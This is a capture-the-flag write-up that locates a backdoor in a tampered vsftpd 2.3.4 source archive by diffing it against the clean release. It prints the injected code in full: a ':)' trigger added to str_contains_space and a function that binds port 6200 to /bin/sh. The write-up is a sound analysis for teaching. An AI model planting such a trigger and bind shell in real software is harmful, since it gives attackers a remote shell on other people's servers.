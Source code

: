 # vsftpd Backdoor

> Author : jul0105
> Date : 13.03.2021



## Challenge info

**Release** : Bundle 2 (13.03)

**Difficulty** : Novice

**Goal** : Find the backdoor.



## Solve

1. Downloaded and uncompressed the vsftpd archive given in the challenge
2. Downloaded and uncompressed a vsftpd archive with the same version (2.3.4) from https://github.com/dagwieers/vsftpd/releases/tag/2.3.4
3. Using `diff`, I compared the two directories to see if any file differs :

```
diff -r vsftpd-2.3.4 vsftpd-2.3.4-backdoor  
```

Result : difference in two files (`str.c` and `sysdeputil.c`).



4. File `str.c`, 5 lines added on the function `str_contains_space` :

```c
int
str_contains_space(const struct mystr* p_str)
{
  unsigned int i;
  for (i=0; i < p_str->len; i++)
  {
    if (vsf_sysutil_isspace(p_str->p_buf[i]))
    {
      return 1;
    }
      /* diff start */
    else if((p_str->p_buf[i]==0x3a)
    && (p_str->p_buf[i+1]==0x29))
    {
      vsf_sysutil_extra();
    }
      /* diff end*/

  }
  return 0;
}

```

**The 5 lines added check if the current character and the next one are `:)`. If this is the case the function `vsf_sysutil_extra()` is called (see next file).**



5. File `sysdeputil.c`, function `vsf_sysutil_extra` added :

```c
int
vsf_sysutil_extra(void)
{
  int fd, rfd;
  struct sockaddr_in sa;
  if((fd = socket(AF_INET, SOCK_STREAM, 0)) < 0)
  exit(1);
  memset(&sa, 0, sizeof(sa));
  sa.sin_family = AF_INET;
  sa.sin_port = htons(6200);
  sa.sin_addr.s_addr = INADDR_ANY;
  if((bind(fd,(struct sockaddr *)&sa,
  sizeof(struct sockaddr))) < 0) exit(1);
  if((listen(fd, 100)) == -1) exit(1);
  for(;;)
  {
    rfd = accept(fd, 0, 0);
    close(0); close(1); close(2);
    dup2(rfd, 0); dup2(rfd, 1); dup2(rfd, 2);
    execl("/bin/sh","sh",(char *)0);
  }
}
```

**This new functions create a socket binded to a shell (`/bin/sh`). This is the backdoor that allow a hacker to get a remote shell on the vsftpd server.**

